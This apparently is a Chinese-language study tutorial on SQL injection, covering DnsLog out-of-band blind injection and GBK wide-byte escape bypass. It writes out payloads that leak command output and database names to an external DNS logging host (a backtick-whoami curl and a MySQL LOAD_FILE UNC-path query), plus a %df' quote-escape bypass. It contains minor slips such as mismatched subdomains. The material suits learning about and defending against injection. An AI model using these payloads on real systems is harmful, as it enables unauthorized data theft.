 ### `DnsLog`盲注

- 当程序存在注入漏洞，但是既不会返回查询结果，又不会返回错误信息时，可以通过布尔盲注和时间盲注通过猜测注入的方式获取到数据，但是这个过程效率很低，要发起很多请求。
- 所以需要一种方式，减少请求，直接返回查询结果，这里可以使用`DnsLog`实现注入

#### `DnsLog`盲注原理

- `DNS`在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信息

- `DNS`的日志信息

  - ```
    curl xx.r4ourp.ceye.io
    ```

    | 记录信息     | 详情                      | 地址        | 方式 | user-agent |
    | ------------ | ------------------------- | ----------- | ---- | ---------- |
    | HTTP Request | http://xx.r5ourp.ceye.io/ | 10.10.10.10 | GET  | curl/7.3.0 |
    | DNS Query    | xx.r5ourp.ceye.io         | 10.10.10.10 |      |            |

  - ```
    curl `whoami`.r4ourp.ceye.io
    ```

    | 记录信息     | 详情                        | 地址        | 方式 | user-agent |
    | ------------ | --------------------------- | ----------- | ---- | ---------- |
    | HTTP Request | http://test.r5ourp.ceye.io/ | 10.10.10.10 | GET  | curl/7.3.0 |
    | DNS Query    | test.r5ourp.ceye.io         | 10.10.10.10 |      |            |

    上面使用反引号包起来的`whoami`被拿到服务器的终端去执行了，然后返回的结果放到了`whoami`的位置

    白话就是，被反引号包起来的被当做命令拿到服务器的终端去执行了，返回的结果被记录到了`DNS`的日志信息里面

- `mysql`的`load_file()`

  - 在`mysql`中，`load_file`函数可以发起请求，可以利用该函数发起请求，使用`DnsLog`接收请求，获取数据
  - 语法：`SELECT LOAD_FILE(CONCAT('\\\',(SELECT DATABASE()),'.MYSQL.r4ourp.ceye.io\\abc'));`
    - 通过SQL语句查询内容，作为请求的一部分，发送至`DnsLog`
    - 只要对这部分的语句进行构造，就能实现有回显的注入
    - 但是对数据格式和内容有限制，只能写入指定的内容

### 宽字节注入

#### 什么是宽字节

- 长度为一个字节的字符是窄字节，长度是两个字节的字符为窄字节

- 当程序对入参做过简单判断时，比如说将单引号转义成`\'`，而当`mysql`在使用`GBK`编码时，会认为两个字符为一个汉字

  | 输入 | 处理    | 编码      | 转义 | SQL        |
  | ---- | ------- | --------- | ---- | ---------- |
  | %df' | `%df\'` | %df%5C%27 | 運'  | id=運' and |

  这样就可以成功注入了
